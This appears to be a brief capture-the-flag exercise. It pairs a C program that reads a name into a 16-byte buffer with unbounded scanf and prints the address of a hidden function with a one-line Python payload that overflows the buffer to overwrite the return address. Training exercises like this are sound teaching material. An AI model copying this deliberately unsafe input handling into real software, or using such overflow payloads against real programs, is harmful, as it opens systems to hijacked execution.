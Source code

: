 Question

```c
#include <stdio.h>

void secret(){
    printf("This is secret function!\n");
}

int main() {
   char name[16];
   printf("secret()'s addr: %p\n", &secret);
   printf("What is your name?\n: ");
   scanf("%s", name);
   printf("Good bye, %s.\n", name);
   return 0;
}
```

Soltuion

Payload --> python3 -c 'print("A"*24+<ret adress>)'


